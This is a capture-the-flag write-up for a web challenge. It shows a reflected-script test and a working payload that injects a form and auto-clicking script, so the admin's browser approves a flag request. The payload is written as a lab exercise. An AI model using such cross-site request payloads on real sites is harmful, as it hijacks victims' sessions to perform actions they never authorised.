


# Apply For Flag II

## Recon

In this challenge we are given a website with an input field. If we write in there and submit it, the input gets reflected. This automatically gave us some ideas to test. 

The first one was SSTI (Server Side Template Injection), but by using [Wappalyzer](https://www.wappalyzer.com/), we found that the tech stack used was not vulnerable to this.

The second one was XSS (Cross-Site Scripting). To test this we submitted the payload `<script>alert("H4X0R")</script>`, hoping that there were no filters difficulting our way.

In fact this was the case:



We also noticed that the server seemed to be re-rendering from time to time, since even if we checked the alert it would appear again.

Furthermore, we noticed in the text `The admin will use this page to check your request.`, which had an hyperlink to `http://ctf-fsi.fe.up.pt:5005/request/<request_id>`.

When we went to this page, we saw a weird disabled button with the text `Give the flag`:



When we inspected the html of this page, we notied that this button would essentially redirect us to a `/approve` endpoint if clicked:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```


## Exploitation

So, knowing all this, after some time of trial and error, we tried to develop a payload that would go to the wanted resource and we injected a javascript snippet to click the button.

Note: We did already know the `<request_id>` from the beginning, since it was given in plaintext in the homepage.


```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form">          
<div class="submit">                  
  <input type="submit" id="giveflag" value="Give the flag">   
</div>  
</form>    

<script type="text/javascript">         
 document.querySelector('#giveflag').click();  
</script>
```

Initially this didn't work as we got an `access denied`. So, we spent a lot of time trying to refactor the script without success.

Only when we tried to disable the javascript in order to turn off all the frontend (superficial) protections, that we finally had success and got the flag.